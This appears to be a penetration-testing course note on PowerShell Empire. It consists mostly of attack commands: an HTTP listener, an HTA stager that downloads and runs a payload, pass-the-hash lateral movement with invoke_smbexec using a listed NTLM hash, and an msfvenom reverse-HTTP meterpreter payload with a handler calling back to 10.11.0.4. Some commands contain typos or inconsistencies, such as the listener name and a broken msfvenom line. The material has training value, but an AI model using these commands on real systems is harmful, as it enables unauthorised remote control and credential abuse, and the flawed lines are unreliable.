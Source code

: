 # Module 23 (Powershell Empire)

## Powershell Empire&#x20;

### Listener

```
// Empire commands used
?
uselistener http
info
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Starting the listener:

```bash
execute
```

### Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `http`- below shows how to set it up:

```bash
//specify what stager to use
usestager windows/hta

//associate stager with the http listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```

<figure><img src="../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

### Lateral Movement

```bash
usemodule lateral_movement/technique
usemodule lateral_movement/invoke_smbexec
```

```
set ComputerName client251
set Listener http
set Username jeff_admin
set Hash e2b475c11da2a0748290d87aa966c327
set Domain corp.com
execute
```

### Switching Between Empire and Metasploit

Metasploit to Empire

```
msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -
f exe -o met.exe
use multi/handler
set payload windows/meterpreter/reverse_http
set LPORT 7777
set LHOST 10.11.0.4
run
```

Empire&#x20;

```
upload /home/h3ckt0r/met.exe
shell dir
shell C:\Users\offsec.corp\Downloads>met.exe
```

Empire to Metasploit

```
 usestager windows/launcher_bat
 set Listener http
 execute
```

Metasploit

```
upload /tmp/launcher.bat
shell
dir
lanucher.bat
```
